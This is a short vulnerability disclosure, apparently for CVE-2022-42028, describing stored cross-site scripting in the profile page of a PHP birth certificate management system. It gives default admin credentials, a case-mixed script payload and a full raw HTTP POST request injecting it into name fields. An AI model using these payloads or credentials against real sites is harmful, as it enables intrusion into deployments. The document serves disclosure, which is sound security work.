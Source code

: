# CVE-2022-42028 Online Birth Certificate Management System - XSS

A vulnerability classified as problematic was found in Online Birth Certificate Management System . This vulnerability affects unknown code. The manipulation of the argument profile.php leads to cross site scripting. The attack can be initiated remotely.

username:admin password:admin123 ----> {ip}/user/profile.php

Supplier： https://www.sourcecodester.com/php/15683/online-birth-certificate-management-system-php-free-download.html

/user/profile.php has XSS

> Payload: <sCrIpT>alert(1)</sCrIpT>

XSS because `$sdata` can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-28/7.png)

## Payload

```sql
POST http://127.0.0.1/CVE/OBCMS/user/profile.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 92
Cache-Control: max-age=0
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="94"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/CVE/OBCMS/user/profile.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=4okk1vi8496nglrc7ut709vl37
Connection: close

fname=admin1	<ScRiPt>alert(1)</sCrIpT>&lname=admin1<ScRiPt>alert(1)</sCrIpT>&add=1@QQ.com&submit=
```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-28/4.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-28/5.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-28/6.png)